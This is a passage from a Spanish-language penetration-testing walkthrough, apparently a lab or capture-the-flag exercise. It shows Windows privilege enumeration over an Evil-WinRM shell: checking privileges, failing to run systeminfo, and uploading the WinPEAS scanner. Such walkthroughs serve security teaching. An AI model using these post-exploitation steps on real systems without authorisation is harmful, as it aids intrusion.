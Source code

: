 
<h2 id="Enum">Enumerando Máquina Víctima</h2>

Como siempre, vamos a revisar privilegios:
```batch
*Evil-WinRM* PS C:\Users\tony\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled
```

No veo algo que nos pueda ayudar, veamos la información del sistema para poder usar la herramienta **Windows Exploit Suggester**:
```batch
*Evil-WinRM* PS C:\Users\tony\Desktop> systeminfo
systeminfo.exe : ERROR: Access denied
    + CategoryInfo          : NotSpecified: (ERROR: Access denied:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

A canijo, no pues no. Esta es una excelente oportunidad para usar la herramienta **WinPEAS**, que nos ayuda a **encontrar vulnerabilidades en sistemas Windows**.

<br>

<h3 id="WinPEAS">Utilizando WinPEAS para Encontrar Vulnerabilidades</h3>

Gracias a **Evil-WinRM**, podemos cargar la herramienta **WinPEAS** con el comando **upload** de la siguiente forma:
```batch
*Evil-WinRM* PS C:\Windows\Temp\Privesc> upload PATH_Donde_Tengas_El_winPEAS.exe
Info: Uploading PATH_Donde_Tengas_El_winPEAS.exe

Data: 2703360 bytes of 2703360 bytes copied

Info: Upload successful!
```

Listo, puedes verificar que se cargó la herramienta:
```batch
*Evil-WinRM* PS C:\Windows\Temp\Privesc> dir


    Directory: C:\Windows\Temp\Privesc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/23/2023   6:01 AM        2027520 winPEASx64.exe
```
